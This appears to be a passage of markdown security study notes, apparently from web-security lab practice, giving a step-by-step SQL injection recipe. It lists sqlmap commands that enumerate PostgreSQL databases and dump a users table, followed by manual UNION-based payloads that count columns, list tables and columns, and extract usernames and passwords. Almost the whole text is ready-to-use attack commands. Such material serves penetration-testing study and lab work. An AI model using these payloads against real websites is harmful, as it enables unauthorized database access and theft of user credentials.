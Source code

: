 > SQLMAP DBS to get databases.

```
-p 'sort-by' -batch --dbms postgresql --technique E --level 5 --dbs
```

> Use SQLMAP dump tables identified from `public` database.

```
-p 'sort-by' -batch --dbms postgresql --technique E --level 5 -D public --tables
```

> ContinueUse SQLMAP `E` Technique to get the `users` content.

```
-p 'sort-by' -batch --dbms postgresql --technique E --level 5 -D public -T users --dump
```

#### Non-Oracle Manual SQLi

> SQL injection UNION attack, determining the **number of columns** returned by the query.

```SQL
'+UNION+SELECT+NULL,NULL--
```

> Determined there is **two** columns returned. Finding a column containing `text`, to be used for reflecting information extracted.

```SQL
'+UNION+SELECT+'fuzzer',NULL--
```

> Next _**identifying**_ a list of **tables** in the database.

```SQL
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

> **OPTIONAL:** Retrieve data from other tables, use code below payload to retrieve the contents of the `users` table.

```SQL
'+UNION+SELECT+username,+password+FROM+users--
```

> Retrieve the names of the **columns** in the _**users**_ table.

```SQL
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_XXXX'--
```

> **Final** step is to the **dump data** from the username and passwords columns.

```SQL
'+UNION+SELECT+username_XXXX,+password_XXXX+FROM+users_XXXX--
```

> **EXTRA:** If you only have one column to extract text data, then concatenate multiple values in a single reflected output field using SQL syntax `||` characters from the database.

```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
